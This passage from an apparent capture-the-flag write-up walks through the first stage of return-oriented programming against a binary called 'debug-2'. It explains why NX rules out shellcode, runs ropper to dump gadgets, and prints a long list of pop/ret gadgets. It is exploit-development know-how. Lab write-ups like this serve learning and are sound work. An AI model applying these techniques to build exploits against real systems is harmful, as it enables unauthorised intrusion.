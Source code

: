 Now that we can jump directly to our payload, we must analyze our situation. We don't have execution in the BSS or the stack. Due to NX being active, we lack any page that is both writable and executable, so shellcode is out of the question. However, we have another technique called ROP. With ROP, we can jump to gadgets, addresses in the code that directly or indirectly contain a `ret` instruction, and build a chain of instructions.

First, let's examine the gadgets in the `.text` section using the command:
```bash
$ ropper --file debug-2 > gadget.txt
```

Followed by:
```bash
$ cat gadget.txt | grep ret | grep pop
```
to narrow our search.


```bash
0x00000000000013ef: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret;
0x00000000000013e7: add byte ptr [rax], al; call 0x1030; mov eax, 0; pop rbp; ret;
0x000000000000114c: add byte ptr [rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011c9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x00000000000013f1: add byte ptr [rax], al; pop rbp; ret;
0x000000000000115d: add byte ptr [rcx], al; pop rbp; ret;
0x000000000000114b: add byte ptr cs:[rax], al; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e9: call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000011ce: call 0x1060; nop; pop rbp; ret;
0x000000000000114e: call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x0000000000001153: call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013dd: call 0x12dc; lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001149: cmp eax, 0x2eba; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013e4: cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e1: dec dword ptr [rax - 0x73]; cmp eax, 0xd31; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e3: lea edi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x00000000000013e2: lea rdi, [rip + 0xd31]; call 0x1030; mov eax, 0; pop rbp; ret;
0x0000000000001158: mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000013ee: mov eax, 0; pop rbp; ret;
0x0000000000001148: mov edi, dword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cc: mov edi, eax; call 0x1060; nop; pop rbp; ret;
0x0000000000001147: mov rdi, qword ptr [rip + 0x2eba]; call 0x1080; call 0x10c0; mov byte ptr [rip + 0x2ee9], 1; pop rbp; ret;
0x00000000000011cb: mov rdi, rax; call 0x1060; nop; pop rbp; ret;
0x0000000000001454: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001456: pop r13; pop r14; pop r15; ret;
0x0000000000001458: pop r14; pop r15; ret;
0x000000000000145a: pop r15; ret;
0x0000000000001453: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000001457: pop rbp; pop r14; pop r15; ret;
0x000000000000115f: pop rbp; ret;
0x000000000000145b: pop rdi; ret;
0x0000000000001459: pop rsi; pop r15; ret;
0x0000000000001455: pop rsp; pop r13; pop r14; pop r15; ret;
0x00000000000011d3: nop; pop rbp; ret;
```
`Advice`: I switched from using ROPgadget to ropper, since jpl8 showed me some advantages regarding the gadgets displayed in the output in other challenges.
